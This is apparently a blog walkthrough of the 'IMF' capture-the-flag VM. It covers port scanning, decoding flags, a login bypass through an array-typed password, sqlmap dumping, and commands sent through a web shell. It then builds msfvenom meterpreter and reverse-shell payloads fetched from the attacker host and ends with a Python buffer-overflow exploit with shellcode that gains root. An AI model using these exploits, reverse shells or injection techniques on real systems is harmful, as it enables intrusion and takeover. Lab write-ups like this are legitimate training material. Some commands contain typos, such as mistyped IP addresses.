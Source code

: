 ```yaml
---
layout: post
title: imf
---
```


##Finding machine on the network:

##Nmap
{% highlight bash %}
nmap -sn 172.16.161.129/24
{% endhighlight %}
Scan for hosts on my local network which gave me a machine named "imf"

Now to run nmap on the machine itself:
{% highlight bash %}
nmap -Pn -oA imf-nmap-results -p 0-65525 172.16.161.129
{% endhighlight %}
Looks like port 80 is open.

After clicking through the pages on the site and viewing their sources I found this:
{% highlight html %}
<!-- flag1{YWxsdGhlZmlsZXM==} -->
{% endhighlight %}
The first flag, having a = at the end looks base64 encoded.
{% highlight bash %}
echo YWxsdGhlZmlsZXM== | base64 -d
{% endhighlight %}
returns: allthefiles

Something I noticed on the contact page was some random weird named js files:
{% highlight html %}
<script src="js/ZmxhZzJ7YVcxbVl.js"></script>
<script src="js/XUnRhVzVwYzNS.js"></script>
<script src="js/eVlYUnZjZz09fQ==.min.js"></script>
{% endhighlight %}
Those all might combine into a base64 string, lets check it out
{% highlight bash %}
echo ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ== | base64 -D
{% endhighlight %}
which  returns: flag2{aW1mYWRtaW5pc3RyYXRvcg==}

after running:
{% highlight bash %}
echo aW1mYWRtaW5pc3RyYXRvcg== | base64 -D
{% endhighlight %}
I get:

imfadministrator

I tried browsing to: http://172.16.161.129/imfadministrator

Loads up a login page, upon viewing the page source I find:
{% highlight html %}
<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->
{% endhighlight %}
I remembered seeing emails on the contact page, went page and sure enough roger is a user, rmichaels is his email.

Trying the user it seems the user is valid.

After some googling, looks like there is a potential authentication type conversion that might get us around authentication.  Looking at a post changing the type of the data that is received server side could bypass authentication.  Intercepting the HTTP post with burp and changing pass to pass[], this ends up sending an array down to the server instead of a string, improper handling of the input must be how we can get past it.  Once the post is forwarded another flag: flag3{Y29udGludWVUT2Ntcw==} which decodes to: continueTOcms

{% highlight bash %}
sqlmap --url http://172.16.161.129/imfadministrator/cms.php?pagename=home --threads 5 --level 5 --cookie="PHPSESSID=phpsessionid" --dbms=MYSQL --dump
{% endhighlight %}
Important to remember the last two parameters, I missed these originally and totally didn't get some output for moving forward from the command line.

Another flag: flag4{dXBsb2Fkcjk0Mi5waHA=} which decodes to: uploadr942.php

flag5{YWdlbnRzZXJ2aWNlcw==} which decodes to: agentservices

Running ps -A through the webshell created to get flag5 I'm able to see all the processes running on the remote machine.  One item that loks interesting is knockd, usually this would indicate that a port knocking sequence exists to open a service up to the public.

Running: netstat -vatn shows a list of the processes listening on TCP, 7788 and 22 look interesting

Trying to knock the default ports (7000 8000 9000)
{% highlight bash %}
for x in 7000 8000 9000; do nmap -T4 -p $x 192.168.1.20;done;
{% endhighlight %}
No luck though when trying to hit the interesting ports.

Trying to hit port 7788:
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=nc localhost 7788
{% endhighlight %}
I get a little shell app. Given that we are investigating "agentservice" I do a find on agent:
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=find%20/%20-name%20%22(asterisk)agent%22
{% endhighlight %}
Which found:
/etc/xinetd.d/agent
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=cat%20/etc/xinetd.d/agent
{% endhighlight %}
Gets:
{% highlight nginx %}
# description: The agent server serves agent sessions
# unencrypted agentid for authentication.
service agent
{
       flags          = REUSE
       socket_type    = stream
       wait           = no
       user           = root
       server         = /usr/local/bin/agent
       log_on_failure += USERID
       disable        = no
       port           = 7788
}
{% endhighlight %}
Looks like /usr/local/bin/agent is a service running.
{% highlight bash %}
curl -v http://172.16.161.1.129/imfadministrator/uploads/c59ca80d5d76.gif?c=ls%20-latr%20/usr/local/bin/agent

-rwxr-xr-x 1 root root 11896 Oct 12 22:39 /usr/local/bin/agent
{% endhighlight %}
The service runs as root, possibly a way in

In order to get a look at the binary I base64 encoded the file contents and saved it to a file locally:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=base64%20-w%200%20/usr/local/bin/agent
{% endhighlight %}
Then decoded it locally:
{% highlight bash %}
cat agentservice | base64 -d >> agentservicebinary
{% endhighlight %}
and finally decompiled the binary here: https://retdec.com/decompilation-run/

On line 37 it looks like the value: 0x2ddd984 assigns 48093572 to an int32_t variable that is used for checking if an agent's ID (passed into executable as a parameter is equal to 48093572), looks like a broken hard-coded authentication.

Also, I used this to convert the hex to an int:
{% highlight bash %}
echo $((0x2ddd984))
{% endhighlight %}
gave me: 48093572.

Next I create a meterpreter for reverse_tcp handling using msfvenom:
{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.16.161.128 LPORT=4444 -f elf > imf-meterpreter
{% endhighlight %}
Now we need to get the file onto the remote machine, wget is probably the easiest.

Setting up a simple web server to host the file:

python -m SimpleHTTPServer

Now run wget on the remote machine:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=wget%20http://172.16.61.128:8000/imf-meterpreter
{% endhighlight %}
Make the meterpreter runnable:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=chmod%20777%20imf-meterpreter
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=chmod%20a+x%20imf-meterpreter
{% endhighlight %}
Now we have a way to interact with the remote machine in metasploit

in MSF run:
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 172.16.161.128
set LPORT 4444
run

Finally, run the script:

curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=.%2Fimf-meterpreter

Once metrepreter prompt is up setup port forwarding for the service:
{% highlight bash %}
portfwd add -l 7788 -p 7788 -r 127.0.0.1
{% endhighlight %}

Open another terminal and hit the service:
{% highlight bash %}
nc localhost 7788
{% endhighlight %}
Now we can interact with the service its time to look at the source again to find a way to exploit.

Combing through the source on line 226:
{% highlight c %}
gets((char *)&str);*
{% highlight c %}
This reads user input, however the size of the input isn't defined, looks like a possible buffer overflow, basically we're passing in more information that the command is going to properly handle and extending the application's memory outside of it's contextual boundary causing an error to occur.

After doing some reading on ways to exploit the buffer overflow I stumbled onto the idea of return oriented programming, tl;dr; Its a way to execute a buffer overflow when defense mechanisms like code-signing and non-executable memory are employed.  In this technique you can send machine language that is already in the machine's memory, whether through the program being exploited itself or other shared libraries.  When these pieces when combined can be used to perform actions on the remote machine.

I was able to upload the agent binaries we got earlier to ropshell.com which analyzes the compiled code for items in memory that can be used in an exploit, in this case: call eax.

Ater reading through some reference docs for assembly, specifically x86 I have surmised that with our goal being getting a root shell by escaping the 'agent' service causing a buffer overflow to occur and running 'call eax.'  In doing so we would be executing whatever is in the eax register.  Another things we're going to need to do is make sure that our exploit is going to be at the address eax is referencing at runtime.  I'm basing this on using the eax register in the processor can be used to execute code held at a memory address to circumvent normal program execution, in this case getting a root shell.

Now to generate a buffer to overflow using msfvenom:

{% highlight bash %}
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.161.128 LPORT=4445 -f python -b "\x00\x0a\x0d"
{% endhighligh %}
This command will give up the buffer overflow shellcode for creating a reverse_tcp shell with my machine as the host and 4445 as the portand to exclude newline characters from the output.

Next write up a python script for using the exploit:
{% highlight python %}
import socket
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('localhost', 7788))
client.recv(512)
client.send("48093572\n")
client.recv(512)
client.send("3\n")
client.recv(512)

#shellcode from msfvenom

buf =  ""
buf += "\xd9\xc2\xba\xa6\xf9\x71\x23\xd9\x74\x24\xf4\x58\x2b"
buf += "\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x4e\x05\x93"
buf += "\xd6\xbf\x2d\xa3\xfa\xec\x92\x1f\x97\x10\x9c\x41\xd7"
buf += "\x72\x53\x01\x8b\x23\xdb\x3d\x61\x53\x52\x3b\x80\x3b"
buf += "\xc9\xab\xd3\x3b\x79\xce\x13\x2a\x27\x47\xf2\xfc\xb1"
buf += "\x07\xa4\xaf\x8e\xab\xcf\xae\x3c\x2b\x9d\x58\xd1\x03"
buf += "\x51\xf0\x45\x73\xba\x62\xff\x02\x27\x30\xac\x9d\x49"
buf += "\x04\x59\x53\x09"
#padding

buf += "A" * (168 - len(buf))

#call eax gadget
buf += "\x63\x85\x04\x08\n"

client.send(buf)

{% endhighlight %}

Now start ncat for the exploit:
{% highlight bash %}
ncat -lv 172.16.161.128 4445
{% endhighlight %}
Then run the script: python payload.py

We're in!
{% highlight bash %}
cd /root
cat Flag6.txt | base64 -d yeilds: ~GhostProtocols
cat TheEnd.txt outputs the final you won thing.
{% endhighlight %}
